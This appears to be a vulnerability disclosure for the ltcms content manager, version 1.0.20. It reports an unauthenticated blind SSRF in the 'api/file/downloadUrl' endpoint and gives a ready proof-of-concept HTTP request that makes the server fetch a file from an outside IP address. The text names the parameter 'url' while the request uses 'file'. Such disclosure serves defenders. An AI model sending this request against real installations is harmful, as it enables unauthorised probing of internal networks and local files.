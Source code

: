 # Vendor

ltcms.com

# Product

ltcms

# version

V1.0.20

Download Source Code: git clone https://gitee.com/wanglongcn/ltcms.git

# Vulnerabilities

SSRF

# Description

In ltcms, there is an API endpoint "api/file/downloadUrl" that can be used to perform a blind SSRF attack. The corresponding page for this endpoint is located in "app/utils/base/helper/Ltcms_download.php". This endpoint does not require authentication, allowing anyone to call curl_exec() to request a URL specified in the url parameter. Additionally, due to the lack of protocol filtering, protocols like file, dict, etc., can be used to initiate requests to the internal network.
<img width="901" alt="image" src="https://github.com/user-attachments/assets/a7a364df-fa10-47e4-8f9f-48396eca435f">

# POC
```
GET /api/file/downloadUrl?file=http://124.221.70.199:8888/c.php HTTP/1.1
Host: 192.168.17.22
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
